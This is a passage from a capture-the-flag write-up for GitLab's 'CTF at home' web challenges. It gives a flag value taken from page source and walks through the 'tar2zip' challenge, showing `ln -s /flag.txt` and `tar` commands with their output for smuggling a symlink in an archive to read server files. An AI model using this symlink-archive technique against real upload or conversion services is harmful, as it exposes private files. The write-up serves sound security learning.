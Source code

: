 - Right-click the page, `view page source` and haul your `X-Ctf-Flag` flag!

`[tanuki](b98e27ae8ae849787c1a0cbdc1b9a35c)`

![https://user-images.githubusercontent.com/104169244/229268905-38fad138-4c97-4ec3-bcd3-76b00ae4ae49.png](https://user-images.githubusercontent.com/104169244/229268905-38fad138-4c97-4ec3-bcd3-76b00ae4ae49.png)

---

## Tar 😈

### [tar2zip](http://capture.local.thetanuki.io/tar2zip)

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%201.png)

- Navigate to [http://tar2zip.local.thetanuki.io/](http://tar2zip.local.thetanuki.io/)
- Here we use the `ln` [command](https://en.wikipedia.org/wiki/Ln_(Unix)) from the Unix library to create a symbolic link for `/flag.txt` (as per the hint on the pre-landing page). As per the man pages:

```jsx
The ln utility creates a new directory entry (linked file) for the file name specified by target_file.  The target_file will be created with the same file modes as the source_file.  It is useful for maintaining multiple copies of a file in many places at once without using up storage for the “copies”; instead, a link “points” to the original copy.  There are two types of links; hard links and symbolic links.  How a link “points” to a file is one of the differences between a hard and symbolic link.
..
-s    Create a symbolic link.
..
```

- Create a symbolic link with the flag: `ctf-at-home master % ln -s /flag.txt testfile`
- Then `tar` the file so it is accepted by the application `ctf-at-home master % tar cvf tar2zip.tar testfile`

```jsx
ctf-at-home master % tar cvf tar2zip.tar testfile
a testfile
ctf-at-home master % ls testfile*
lrwxr-xr-x  1 adam  staff  -    9B 14 Oct 19:20 testfile@ -> /flag.txt
ctf-at-home master % ls tar2*
-rw-r--r--  1 adam  staff  -  1.5K 14 Oct 19:24 tar2zip.tar
```
